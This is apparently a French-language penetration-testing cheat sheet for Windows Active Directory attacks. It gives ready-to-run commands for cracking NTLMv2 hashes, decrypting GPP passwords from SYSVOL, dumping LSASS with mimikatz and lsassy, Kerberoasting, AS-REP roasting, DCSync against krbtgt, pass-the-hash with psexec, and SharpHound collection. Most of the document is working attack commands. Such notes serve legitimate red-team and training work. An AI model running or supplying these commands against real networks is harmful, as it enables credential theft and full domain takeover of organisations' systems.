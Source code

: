 # Attaques Windows avec identifiants

## 1. Obtention d'identifiants / hash NTLM

### 1.1. Cracking

> Entrée : Hash Net-NTLMv2 obtenu au préalable
>
> Objectif : Obtenir le mot de passe de l'utilisateur

```bash
$ john --format=netntlmv2 --wordlist="/usr/share/wordlists/rockyou.txt" hash.txt

$ hashcat -m 5600 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```



### 1.2. MS14-025 (GPO)

> **SYSVOL** est un partage réseau regroupant entre autre les éléments qui doivent être accessibles pour l’ensemble des ordinateurs du domaine (e.g. scripts de connexion, GPO, …). Il se situe sur les controleurs de domaine.
>
> Entrée : Accès à un partage SYSVOL sur la machine <IP> (compte du domaine)
>
> Objectif : Obtenir le mot de passe de l'utilisateur utilisé pour appliquer la GPO (généralement l'administrateur local)

```bash
# Connexion au préalable sur le partage SMB SYSVOL
$ cd \DOMAIN\Policies\{UNE-CLE-GPO}\Machine\Preferences\Groups\
$ cat Groups.xml
$ gpp-decrypt <HASHED_PASSWORD>

# Ou plus facile, utilisation du module gpp_password CME
$ cme smb <IP> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
```



### 1.3 Dump LSASS

> Récupération des hash NTLM des comptes s'étant connectés sur la machine
>
> Entrée : compte administrateur local d'une machine cliente
>
> Objectifs : récupérer un hash HTLM d'un compte du domaine

```bash
# A distance
$ crackmapexec smb <IP_PARTAGE> -u USERNAME -p PASSWORD -M lsassy 

# Si déjà connecté sur le poste client
C:\> .\mimikatz.exe 
```





## 2. Exploitation avec identifiants / hash NTLM

### 2.1 Exploitation des partages réseau

#### 2.1.1 Listing des partages réseaux SMB

> Entrée : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : lister les partages réseaux SMB présents sur une machine <IP>

```bash
# Sur une machine cliente
$ crackmapexec smb <IP_CLIENT> -u "USERNAME" -p 'PASSWORD' --shares --local-auth

# Sur un contrôleur de domaine
$ crackmapexec smb <IP_DC> -u "USERNAME" -H <HASH_NTLM> --shares
```

- Si utilisation d'un compte local, spécifier l'option --local-auth ;

- CME vient confirmer les identifiants utilisés et indique la mention "Pwn3d!" si c'est un compte ayant les droits d'un **administrateur local**. Si c'est un compte du domaine, il l'indique en vert.

  

#### 2.1.2 Accès aux partages réseaux SMB

> Entrée : Identifiants d'un utilisateur / hash NTLM si le partage est sur le DC
>
> Objectifs : accéder et lire les fichiers présents sur les partages réseau SMB

```bash
# Sur une machine client
$ impacket-smbclient 'USERNAME:PASSWORD@<IP_CLIENT>'

# Sur un contrôleur de domaine
$ impacket-smbclient -hashes :<HASH_NTLM> DOMAIN/USERNAME@<IP_DC>     
```

Voir [smbclient](./smclient.md) pour consulter les actions réalisables



### 2.2 Attaques liées au compte de service

#### 2.2.1 Kerberoasting

> Entrée : Compte utilisateur avec le droit d'utiliser le service
>
> Objectif : Récupérer un TGS (ticket signé avec le mot de passe du compte de service) pour le cracker et obtenir le mot de passe du compte de service

```bash
$ impacket-GetUserSPNs -request -dc-ip <IP_DC> 'DOMAIN/USERNAME:PASSWORD'
```



#### 2.2.2 ASREP Roasting (WIP)

> Se base sur la possibilité de demander un ticket de service en tant qu'un utilisateur du domaine sans connaître son mot de passe.
>
> Entrée : Connaissance du compte de service dont on veut un ticket / paramétrage de l'utilisateur de domaine "pas de pré-authentification Kerberos"
>
> Objectif : Récupérer un TGT pour le cracker et obtenir le mot de passe du compte de service

```bash
$ impacket-GetUserSPNs 'DOMAIN/USERNAME' -no-pass
```



#### 2.2.3 DCSync

> Se base sur le fait qu'un compte de service ait les droits de répliquer les modifications d'un annuaire (i.e. synchronisation de tout l'annuaire)
>
> Entrée : Compte de service avec les droits DCSync
>
> Objectif (court) : Devenir administrateur du domaine (Administrateur ou KRBTGT)
>
> Objectif (long) : Répliquer l'annuaire pour ensuite lire les modifications du fichier NTDS.dit et donc récupérer tous les hash des utilisateurs du domaine, dont l'administrateur du domaine

```bash
$ impacket-secretsdump 'DOMAINE/USERNAME:PASSWORD@<IP_DC>' -just-dc-user krbtgt
```



### 2.3 Autre

#### 2.3.1 Connexion sur un poste distant

> Entrée : Identifiants d'un utilisateur / hash NTLM
>
> Objectifs : exécuter des commandes sur le serveur / lire des fichiers / dump LSASS / etc.
>
> Autre objectif : si la machine cliente est relié à l'AD, lancer SharpHound pour utiliser BloodHound

```bash
# Sur une machine client
$ impacket-psexec 'USERNAME:PASSWORD@<IP_CLIENT>'
# Hash LM vide : aad3b435b51404eeaad3b435b51404ee / Remplacer par hash LM s'il y en a un
$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:<HASH_NT> 'USERNAME@<IP_CLIENT>'
```



#### 2.3.2 SharpHound 

> Entrée : Connexion sur un poste distant du domaine
>
> Objectif : Extraire les informations de l'annuaire pour ensuite élaborer des chemins de compromissions via BloodHound

```powershell
# Génère un fichier à donner en entrée à BloodHound
C> SharpHound.exe --outputdirectory C:\ --CollectionMethod All
```

